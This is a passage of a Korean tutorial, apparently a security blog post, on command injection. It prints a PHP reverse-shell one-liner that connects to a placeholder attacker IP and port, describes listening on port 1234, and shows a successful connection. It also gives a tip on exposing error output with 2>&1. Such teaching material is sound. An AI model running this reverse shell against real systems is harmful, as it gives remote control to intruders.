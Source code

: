 ``` php -r '$sock=fsockopen("<공격자의 IP주소>",<공격자의 포트번호>);shell_exec("sh <&3 >&3 2>&3");' ```

해당 코드는 대상 시스템에서 공격자의 소켓에 TCP 연결을 하고 쉘 입출력 전체를 열린 소켓으로 리다이렉션을 하는 것이다.

<br>
<figure style="text-align:center;">
    <img src="{{ '/assets/images/http/command_injection/4_리버스쉘인젝션.png' | relative_url }}" style="width:500px;">
    <figcaption>리버스 쉘 코드 주입</figcaption>
</figure>

실행하기 전에 공격자의 시스템에서 1234번 포트를 열어둬야 한다.

<br>
<figure style="text-align:center;">
    <img src="{{ '/assets/images/http/command_injection/5_성공.png' | relative_url }}" style="width:500px;">
    <figcaption>연결 성공</figcaption>
</figure>

---
---
만약 command injection을 했는데 아무 결과도 안나왔다면 에러 메시지로 나왔을 확률이 높다는 것을 알아두면 좋다.
<br>
<figure style="text-align:center;">
    <img src="{{ '/assets/images/http/command_injection/6_에러.png' | relative_url }}" style="width:600px;">
    <figcaption>▲ python3 -h를 주입하자 어떤 결과도 출력하지 않는 모습</figcaption>
</figure>
<br>

그럴 경우 2>&1 구문을 통해 표준 에러를 표준 출력으로 리다이렉션, 즉 에러메시지도 출력하게 만든다.

<br>
<figure style="text-align:center;">
    <img src="{{ '/assets/images/http/command_injection/7_에러출력.png' | relative_url }}" style="width:600px;">
    <figcaption>▲ 2>&1 구문에 의해 오류 메시지가 출력되는 모습</figcaption>
</figure>
<br>

